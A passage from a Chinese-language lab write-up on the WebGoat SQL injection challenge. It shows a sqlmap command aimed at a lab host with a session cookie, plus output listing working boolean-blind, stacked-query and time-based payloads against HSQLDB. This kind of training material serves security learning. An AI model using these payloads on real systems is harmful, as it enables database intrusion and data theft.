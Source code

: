 <img src="images/lab_sqli/sqli-advanced-blindi-05.png" width="480" alt="sqli-advanced-blindi-05" />

结果令人满意：），显然存在着漏洞。总的来看有两种情况的服务器响应信息：

- “User *** created, please proceed to the login page.”
- "User *** already exists please try to register with a different username."



使用chrome开发者工具截取并观察流量，使用sqlmap时：
```
sqlmap -u http://10.10.10.129:8080/WebGoat/SqlInjection/challenge  --cookie "JSESSIONID=873037C186F14C0F4E34EF048F7752CE" --data "username_reg=§newuser&email_reg=123@401.com&password_reg=123&confirm_password_reg=123" --method "PUT" 
```

结果如下：
```
[*] starting @ 18:24:18 /2019-08-27/

[18:24:19] [INFO] resuming back-end DBMS 'hsqldb' 
[18:24:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username_reg (PUT)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username_reg=§newuser' AND 3279=3279 AND 'GonP'='GonP&email_reg=123@401.com&password_reg=123&confirm_password_reg=123

    Type: stacked queries
    Title: HSQLDB >= 1.7.2 stacked queries (heavy query - comment)
    Payload: username_reg=§newuser';CALL REGEXP_SUBSTRING(REPEAT(RIGHT(CHAR(1681),0),500000000),NULL)--&email_reg=123@401.com&password_reg=123&confirm_password_reg=123

    Type: time-based blind
    Title: HSQLDB > 2.0 AND time-based blind (heavy query)
    Payload: username_reg=§newuser' AND CHAR(109)||CHAR(120)||CHAR(102)||CHAR(85)=REGEXP_SUBSTRING(REPEAT(LEFT(CRYPT_KEY(CHAR(65)||CHAR(69)||CHAR(83),NULL),0),500000000),NULL) AND 'StIP'='StIP&email_reg=123@401.com&password_reg=123&confirm_password_reg=123
---
[18:24:19] [INFO] the back-end DBMS is HSQLDB
```